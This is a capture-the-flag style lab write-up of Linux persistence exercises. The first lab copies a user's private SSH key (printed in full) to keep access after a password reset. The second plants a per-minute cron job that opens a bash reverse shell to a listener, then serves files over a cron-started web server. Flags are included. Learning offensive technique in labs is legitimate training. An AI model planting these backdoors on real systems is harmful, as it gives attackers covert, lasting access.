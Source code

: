# 🔬Linux Persistence

## Lab 1 - SSH <a href="#lab-1-ssh" id="lab-1-ssh"></a>

> 🔬 [Maintaining access I](https://www.attackdefense.com/challengedetails?cid=954)
>
> * Target IP: `192.3.140.3`
> * **Persistence** via **SSH Keys**, even after user credentials are modified
> * Initial credentials: `student` :`password`

```bash
ifconfig
    192.61.149.3
```

```bash
ssh student@192.61.149.3
```

<figure><img src="../../../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

### SSH Keys <a href="#ssh-keys" id="ssh-keys"></a>

```bash
ls -al
    total 24
    drwxr-xr-x 1 student student 4096 Aug  9 15:36 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    drwx------ 2 student student 4096 Aug  9 15:36 .cache
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 .ssh
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait
    
cat wait
    Delete this file to trigger connection reset.
    
    Delete it only after planting the backdoor.
    
cd .ssh

ls
    authorized_keys  id_rsa
```

* Show the **private key** inside `id_rsa`

```bash
cat id_rsa 

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA3JH1zC1WJuJ2KCPf1UdJe1dX+Uh4aE9RKsnuQk124eOB601/
    8+Q6uJej38goVYQ7Dc4INK9Pq9cOs+uDQfRdjS1/9S7a0bDVORR6Q/E3dya0RDsz
    LcaqX6LkPgnBZ2gS37E4mX6kiwEvYeqaAGyFqyfn+QPLos/Znc3EA4A71LPFg01b
    AmpI6Gbaa7UUG+MCZoM0qDNo5Mzr5bmtCnVOKQ6n0Qx7znu5A2p00TfzmAo7erZ8
    6xJUfXQoVFzqmINqhZKFZtjgV5nk/qHgn1BPyd6NoWeXADdIJKi7iq4jomT+Ny+/
    HlxrAs1IJhxtrSExSMTkqmH/3KeX9ibBWXzY1QIDAQABAoIBAEO0liOvgvN6rlRR
    9sJMGJVA0WNWyIcUWdDtnTJC/wwFvvqQlocx9oh1G7t0gFUHuuzY4pHxgl44LG40
    C91x+kl8vvtu/4JAaqMT0xgJ8kGj4s/S8DnL8r5ajP8yFWj9fFWn27zaL/3vRjEj
    R1R7+2f3XvCEJrz6Wk1jPRjqAvOeDRGH3ojsQwWO7k/FcvtqVBCPTGxyUBzXYv06
    fM3OY5NL8D7t/bLoHa8dVhqjPnfUR7/IpiAdxEam1X0ObPB5YyBwSlpj6h904bF/
    +U697IE23xjVmKMKcvTLe6QAxuRGSMf3/k3rCpDd3UxYF+P2e0CK3MefWjKpAe8r
    2xRXyB0CgYEA+7zgmuhJqjik8tbt6b6+ZAJZ68TqLE1f3YEW/LivMeMj5tQZo/w+
    0ZJnr6hR3eicMMxWKufGXSEtbs1TzMGvA5SXI9MTu62a5A2h7NDbLuKRwdjh9Qv6
    TocFSMTSFcS4jvmbeYlVaSZWrJLLKY6lsjgdjDB4DH7Uc0Anxdr//GsCgYEA4E39
    rlB7GWoCX7oXpSEGCHkQkmgX5IDU7+UUySFqD8fWoLsAc47R/TmDsKI+x83PF5jG
    oo5P5LmUIeqnAKknTSyfD1YFtMa3tpTE68R9j/uueTK7v5izwWQjicmILm4RdkZJ
    TVVH2b0aIQaUnpWWwHLa+BYx2jH4S2GxH89vz78CgYEA211SyApFLw0fR/Hc7kRm
    OlYGL7qvaR2fvTDhbCYvnKRXQ61uDoUf5JXUvrBJbrtlZ+yX5dmE9OCVa6mHLbVV
    oiQYtIIZ/wCgKbxrbybs6OVMqIQrGtNuMoHcK/Y/L/L19Lk0L2tqPy/GdamRWkxQ
    vYXC0cfmxNS8oxWz0uktCrMCgYB6ufF9OMfBxgD6g4WAciss46CvmojIG71mbL8M
    tV2kuMC0PN0oXRKELL3jHUKga/lNfefg9WC9UtS8IfmyINtCHJIDABwrJzdJjOiZ
    326cIyb5ZUrYsCJaRAI117DNRqgDQL3GtEyV1CPBwin7Avny3mT0rKAmNIUYKaGS
    OBuDXQKBgQDIRYOZEaV8rXx3wN24NYuByNUpRM3AIyPIwAuaPklWD6D2KdDveheI
    lZtRb6Yzzmeon0DuLPdl7e/R7e5Z8Mx3o40aiJLULlw95JqON3J3W471PZAG1L/g
    59PKgUMBNVX9UsUqvHyWlcY/FAT9UhWblgDoN3uXY9Db6q5x7hWzKw==
    -----END RSA PRIVATE KEY-----
```

* Check the [`authorized_keys`](https://www.ssh.com/academy/ssh/authorized-keys-file) file too

```bash
cat authorized_keys 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDckfXMLVYm4nYoI9/VR0l7V1f5SHhoT1Eqye5CTXbh44HrTX/z5Dq4l6PfyChVhDsNzgg0r0+r1w6z64NB9F2NLX/1LtrRsNU5FHpD8Td3JrREOzMtxqpfouQ+CcFnaBLfsTiZfqSLAS9h6poAbIWrJ+f5A8uiz9mdzcQDgDvUs8WDTVsCakjoZtprtRQb4wJmgzSoM2jkzOvlua0KdU4pDqfRDHvOe7kDanTRN/OYCjt6tnzrElR9dChUXOqYg2qFkoVm2OBXmeT+oeCfUE/J3o2hZ5cAN0gkqLuKriOiZP43L78eXGsCzUgmHG2tITFIxOSqYf/cp5f2JsFZfNjV root@localhost
```

### Persistence <a href="#persistence" id="persistence"></a>

* Exit the `SSH` session and download the `id_rsa` file

```bash
scp student@192.61.149.3:~/.ssh/id_rsa .
chmod 400 id_rsa 
```

<figure><img src="../../../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

* Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.61.149.3
rm wait
    Connection to 192.61.149.3 closed by remote host.
    Connection to 192.61.149.3 closed.
# Old student's password do not work anymore
```

* Connect to the target using the downloaded private key

```bash
ssh -i id_rsa student@192.61.149.3
```

<figure><img src="../../../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `689227a4f1b97afe1ff5ebaf85babc19`
{% endhint %}

> 📌 Instead of using a user's private key, typically the attacker generates an SSH key pair on his system, keeps the private key on his system, transfers the public key onto the target system user's home `.ssh` directory and adds it in the `authorized_keys` file.
>
> * [SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

***

## Lab 2 - Cron Jobs <a href="#lab-2-cron-jobs" id="lab-2-cron-jobs"></a>

> 🔬 [T1168: Local Job Scheduling](https://www.attackdefense.com/challengedetails?cid=1553)
>
> * Target IP: `192.28.59.2`
> * **Persistence** via **Cron Jobs**
> * Initial credentials: `student` :`password`
> * 🔬 Check the [Cron Jobs Linux attacks Lab here](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/linux-attacks/cron)

* [Scheduled Task/Job - MITRE ATT\&CK](https://attack.mitre.org/techniques/T1053/)
* [crontab.guru](https://crontab.guru/)

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-cdd2252b21e631f7d116c274f50f7cef57193f43%252Fimage-20230429160832734.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=bc20cf3f&#x26;sv=1" alt=""><figcaption></figcaption></figure>

```bash
ip -br -c a
	192.28.59.3/24
```

```bash
ssh student@192.28.59.3 
```

### Cron Jobs <a href="#cron-jobs" id="cron-jobs"></a>

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Aug 10 05:11 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    drwx------ 2 student student 4096 Aug 10 05:11 .cache
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    
    Delete it only after planting the backdoor.
```

```bash
cat /etc/cron*
```

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Persistence <a href="#persistence-1" id="persistence-1"></a>

* Create a **new Cron job** as the `student` user
  * The command inside the cron job will be executed with the `student`'s permissions'

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.28.59.2/1234 0>&1'" > cron
```

```bash
crontab
crontab -i cron
crontab -l
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.28.59.3
rm wait
# Old student's password do not work anymore
```

* Setup a `nc` listener and wait for the `bash reverse shell` from the cron job **that runs every minute**

```bash
nc -nvlp 1234
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Second method

```bash
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron
crontab -i cron
crontab -l
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>will show open</p></figcaption></figure>

```bash
curl 192.28.59.3:8000
curl 192.28.59.3:8000/flag.txt
```

{% hint style="success" %}
**Flag:** `79969e32981f722464fde4ce7f208883`
{% endhint %}
